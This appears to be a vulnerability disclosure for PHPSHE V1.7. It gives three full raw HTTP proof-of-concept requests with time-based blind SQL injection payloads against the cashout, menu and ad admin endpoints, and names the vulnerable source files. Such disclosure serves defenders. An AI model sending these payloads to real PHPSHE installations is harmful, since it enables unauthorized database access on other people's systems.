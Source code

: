 # SQL1

PHPSHE V1.7 is vulnerable to SQL injection vulnerabilities. Attackers can inject sql statement via the cashout_id[] parameter to the server.

Poc:
```
POST /phpshe/admin.php?mod=cashout&act=success HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/phpshe/admin.php?mod=cashout&state=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Cookie: PHPSESSID=0a97c3f86f5b63a3e74ffcdf1c70b59c
Connection: close
Upgrade-Insecure-Requests: 1

cashout_id%5B%5D=1')+and+IF(1=1,sleep(2),1)+and+('1'='1

```
vulnerability verification:
![](https://github.com/lemon666/image/blob/master/1.png)
![](https://github.com/lemon666/image/blob/master/2.png)
Using sqlmap：
![](https://github.com/lemon666/image/blob/master/3.png)
the lines of code where the vulnerability exist：
module/admin/cashout.php
![](https://github.com/lemon666/image/blob/master/4.png)

# SQL2

PHPSHE V1.7 is vulnerable to SQL injection vulnerabilities. Attackers can inject sql statement via the menu_id[] parameter to the server.

Poc:
```
POST /phpshe/admin.php?mod=menu&act=del&token=1dc02be6d9710d51e89a116af232dced HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/phpshe/admin.php?mod=menu
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Cookie: PHPSESSID=0a97c3f86f5b63a3e74ffcdf1c70b59c
Connection: close
Upgrade-Insecure-Requests: 1

menu_order%5B1%5D=1&menu_order%5B2%5D=2&menu_order%5B3%5D=3&menu_order%5B4%5D=4&menu_id%5B%5D=6'+and+IF(1=1,sleep(2),1)+and+'1'='1&menu_order%5B6%5D=6
```
vulnerability verification:
![](https://github.com/lemon666/image/blob/master/5.png)
the lines of code where the vulnerability exist：
module/admin/menu.php
![](https://github.com/lemon666/image/blob/master/6.png)

# SQL3

PHPSHE V1.7 is vulnerable to SQL injection vulnerabilities. Attackers can inject sql statement via the ad_id[] parameter to the server.

Poc:
```
POST /phpshe/admin.php?mod=ad&act=del&token=1dc02be6d9710d51e89a116af232dced HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/phpshe/admin.php?mod=ad
Content-Type: application/x-www-form-urlencoded
Content-Length: 90
Cookie: PHPSESSID=0a97c3f86f5b63a3e74ffcdf1c70b59c
Connection: close
Upgrade-Insecure-Requests: 1

ad_id%5B%5D=17'+and+IF(1=1,sleep(2),1)+and+'1'='1&ad_order%5B17%5D=0&ad_order%5B16%5D=0&ad_order%5B12%5D=0&ad_order%5B18%5D=3
```
vulnerability verification:
![](https://github.com/lemon666/image/blob/master/7.png)
the lines of code where the vulnerability exist：
module/admin/ad.php
![](https://github.com/lemon666/image/blob/master/8.png)

